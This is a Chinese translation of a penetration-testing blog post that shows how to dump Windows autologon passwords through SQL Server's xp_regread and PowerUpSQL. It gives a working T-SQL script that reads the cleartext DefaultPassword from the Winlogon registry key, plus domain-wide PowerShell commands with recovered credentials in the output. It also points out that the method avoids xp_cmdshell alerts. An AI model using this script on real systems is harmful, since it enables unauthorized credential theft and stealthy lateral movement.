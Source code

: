 > 原文链接: https://www.anquanke.com//post/id/85526 


# 【技术分享】通过SQL Server与PowerUpSQL获取Windows自动登录密码


                                阅读量   
                                **110685**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：netspi.com
                                <br>原文地址：[https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/](https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](https://p3.ssl.qhimg.com/t01f09ea3ba86d67b81.jpg)](https://p3.ssl.qhimg.com/t01f09ea3ba86d67b81.jpg)**

****

翻译：[烤土豆](http://bobao.360.cn/member/contribute?uid=20928636)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

在本文中，我将演示如何使用PowerUpSQL通过SQL Server转储Windows自动登录密码。 我还将谈一下例如xp_regread等其他方式存储过程在渗透测试中利用方法。

<br>

**xp_regread的简短历史**

自SQL Server 2000以来，xp_regread扩展存储过程一直存在。自从SQL Server 2000允许Public角色的成员访问SQL Server服务帐户中任何有权限的东西。 当时，它有一个非常大的影响，因为常见的SQL Server作为LocalSystem运行。

自从SQL Server 2000 SP4发布以来，xp_regread的影响已经相当小，由于添加了一些访问控制，防止低特权登录的用户去访问注册表敏感的位置。 现在，无权限用户只可访问与SQL Server相关的注册表位置。 有关这些的列表，请访问[https://support.microsoft.com/en-us/kb/887165](https://support.microsoft.com/en-us/kb/887165) 

以下是一些更有趣的访问路径：

```
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  Microsoft SQL Server  
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  MSSQLServer 
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  Search 
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  SQLServer 
HKEY_LOCAL_MACHINE  SOFTWARE  Microsoft  Windows消息子系统 
HKEY_LOCAL_MACHINE  SYSTEM  CurrentControlSet  Services  EventLog  Application  SQLServer 
HKEY_LOCAL_MACHINE  SYSTEM  CurrentControlSet  Services  SNMP  Parameters  ExtensionAgents 
HKEY_LOCAL_MACHINE  SYSTEM  CurrentControlSet  Services  SQLServer 
HKEY_CURRENT_USER  Software  Microsoft  Mail HKEY_CURRENT_USER  Control Panel  International
```

<br>

**具有 Public权限的xp_regread的实际用途**

xp_regread可以用来获取很多有用的信息。 事实上，当作为最低权限登录时，我们可以使用它来获取无法在通过其他方式而获得的服务器信息。 例如，PowerUpSQL中的Get-SQLServerInfo函数可以得到一些信息。

```
PS C:&gt; Get-SQLServerInfo
ComputerName           : SQLServer1
Instance               : SQLServer1
DomainName             : demo.local
ServiceName            : MSSQLSERVER
ServiceAccount         : NT ServiceMSSQLSERVER
AuthenticationMode     : Windows and SQL Server Authentication
Clustered              : No
SQLServerVersionNumber : 12.0.4213.0
SQLServerMajorVersion  : 2014
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : SP1
OSArchitecture         : X64
OsMachineType          : WinNT
OSVersionName          : Windows 8.1 Pro
OsVersionNumber        : 6.3
Currentlogin           : demouser
IsSysadmin             : Yes
ActiveSessions         : 3
```

在SQL Server SP4中实现的访问控制限制不适用于sysadmins。 因此，SQL Server服务帐户可以在注册表中访问的任何内容，sysadmin可以通过xp_regread访问。

乍一看，这可能不是一个大问题，但它确实允许我们从注册表中提取敏感数据，而无需启用xp_cmdshell，当xp_cmdshell启用和使用时可能会触发大量警报。

<br>

**使用xp_regread恢复Windows自动登录凭据**

可以将Windows配置为在计算机启动时自动登录。 虽然这不是企业环境中的常见配置，但这是我们在其他环境中经常看到的。 特别是那些支持传统POS终端和Kiosk与本地运行SQL Server的。 在大多数情况下，当Windows配置为自动登录时，未加密的凭据存储在注册表项中：

```
HKEY_LOCAL_MACHINE SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon
```

利用该信息，我们可以编写一个基本的TSQL脚本，该脚本使用xp_regread将自动登录凭据从我们的注册表中提取出来，而无需启用xp_cmdshell。 下面是一个TSQL脚本示例，但由于注册表路径不在允许的列表中，我们必须将查询作为sysadmin运行：

```
-------------------------------------------------------------------------
-- Get Windows Auto Login Credentials from the Registry
-------------------------------------------------------------------------
-- Get AutoLogin Default Domain
DECLARE @AutoLoginDomain  SYSNAME
EXECUTE master.dbo.xp_regread
@rootkey        = N'HKEY_LOCAL_MACHINE',
@key            = N'SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon',
@value_name     = N'DefaultDomainName',
@value          = @AutoLoginDomain output
-- Get AutoLogin DefaultUsername
DECLARE @AutoLoginUser  SYSNAME
EXECUTE master.dbo.xp_regread
@rootkey        = N'HKEY_LOCAL_MACHINE',
@key            = N'SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon',
@value_name     = N'DefaultUserName',
@value          = @AutoLoginUser output
-- Get AutoLogin DefaultUsername
DECLARE @AutoLoginPassword  SYSNAME
EXECUTE master.dbo.xp_regread
@rootkey        = N'HKEY_LOCAL_MACHINE',
@key            = N'SOFTWAREMicrosoftWindows NTCurrentVersionWinlogon',
@value_name     = N'DefaultPassword',
@value          = @AutoLoginPassword output 
-- Display Results
SELECT @AutoLoginDomain, @AutoLoginUser, @AutoLoginPassword
```

我还创建了一个名为“Get-SQLRecoverPwAutoLogon”的PowerUpSQL函数，所以你可以直接运行它。 它将获取到默认Windows自动登录信息和备用Windows自动登录信息（如果已设置）。 然后它返回相关的域名，用户名和密码。

下面是命令示例。

```
PS C:&gt; $Accessible = Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 15| Where-Object `{`$_.Status –eq “Accessible”`}`
PS C:&gt; $Accessible | Get-SQLRecoverPwAutoLogon -Verbose
VERBOSE: SQLServer1.demo.localInstance1 : Connection Success.
VERBOSE: SQLServer2.demo.localApplication : Connection Success.
VERBOSE: SQLServer2.demo.localApplication : This function requires sysadmin privileges. Done.
VERBOSE: SQLServer3.demo.local2014 : Connection Success.
VERBOSE: SQLServer3.demo.local2014 : This function requires sysadmin privileges. Done.
ComputerName : SQLServer1
Instance     : SQLServer1Instance1
Domain       : demo.local
UserName     : KioskAdmin
Password     : test
ComputerName : SQLServer1
Instance     : SQLServer1Instance1
Domain       : demo.local
UserName     : kioskuser
Password     : KioskUserPassword!
```

<br>

**结尾**

即使xp_regread扩展存储过程已被部分关闭，不过仍然有很多方法，可以证明在渗透测试期间十分有用。 希望你会与“Get-SQLServerInfo”，“Get-SQLRecoverPwAutoLogon”函数有更多乐趣。

<br>

**参考**

[https://support.microsoft.com/en-us/kb/887165](https://support.microsoft.com/en-us/kb/887165) 

[https://msdn.microsoft.com/en-us/library/aa940179(v=winembedded.5).aspx](https://msdn.microsoft.com/en-us/library/aa940179(v=winembedded.5).aspx) 

[http://sqlmag.com/t-sql/using-t-sql-manipulate-registry](http://sqlmag.com/t-sql/using-t-sql-manipulate-registry) 
